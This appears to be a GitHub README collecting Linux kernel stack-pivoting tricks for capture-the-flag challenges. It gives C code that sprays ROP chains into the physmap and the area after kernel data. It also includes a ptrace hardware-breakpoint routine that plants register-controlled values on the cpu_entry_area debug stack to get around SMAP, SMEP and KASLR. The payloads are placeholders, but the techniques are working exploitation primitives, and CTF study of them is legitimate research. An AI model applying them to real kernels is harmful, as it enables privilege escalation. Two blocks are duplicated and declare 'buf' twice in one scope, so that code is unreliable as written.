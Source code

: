 # linux-kernel-stack-pivoting-trick
some tricks for linux kernel stack pivoting in CTF \[with smap|smep|kaslr\]

## direct mapping area [physmap]
- condition: leak physmap address
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [MINI-LCTF2022 kgadget](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir) with smap&&smep, but no kaslr

## DB_stack [in per-cpu cpu_entry_area]
- condition: leak per-cpu cpu_entry_area after linux 6.2
- exploit: trigger hardware breakpoint to place rop chain in DB_stack
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#define DB_OFFSET(idx) ((void*)(&(((struct user*)0)->u_debugreg[idx])))
pid_t pid;
int status;
char buf[4];

void set_hbp(void *addr)
{
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(0), addr) == -1)
    {
        printf("Failed to set dr_0\n");
        kill(pid, 9);
        exit(-1);
    }
    unsigned long dr_7 = (1<<0)|(1<<8)|(1<<16)|(1<<17)|(1<<18)|(1<<19);
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(7), dr_7) == -1)
    {
        printf("Failed to set dr_7\n");
        kill(pid, 9);
        exit(-1);
    }
}

int main(int argc, char **argv, char **env)
{
    pid = fork();
    if (!pid)
    {
        cpu_set_t cpu_set;
        CPU_ZERO(&cpu_set);
        CPU_SET(0, &cpu_set);
        sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP);
        // place rop chain
        __asm__(
        "mov r15,   0x11111111;"
        "mov r14,   0x22222222;"
        "mov r13,   0x33333333;"
        "mov r12,   0x44444444;"
        "mov rbp,   0x55555555;"
        "mov rbx,   0x66666666;"
        "mov r11,   0x77777777;"
        "mov r10,   0x88888888;"
        "mov r9,    0x99999999;"
        "mov r8,    0xaaaaaaaa;"
        "mov rax,   0xbbbbbbbb;"
        "mov rcx,   0xcccccccc;"
        "mov rdx,   0xdddddddd;"
        "mov rsi,   0xeeeeeeee;"
        "mov rdi,   0xffffffff;"
        );
        buf[0] = 0;
        exit(1);

    }
    waitpid(pid, &status, 0);
    set_hbp(buf);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    return 0;
}
```
- example: [SCTF2023 sycrop|moonpray](https://github.com/pray77/CVE-2023-3640)
- bypass cea randomization in qemu [maybe just in CTF]:
-  [make cpu-entry-area great again](https://kqx.io/post/sp0/) by [@kqx](https://kqx.io/about/)
-  I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)

## a area after kernel data [maybe just in CTF]
- condition: leak kbase
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [WMCTF2025 wm_easyker](https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5)
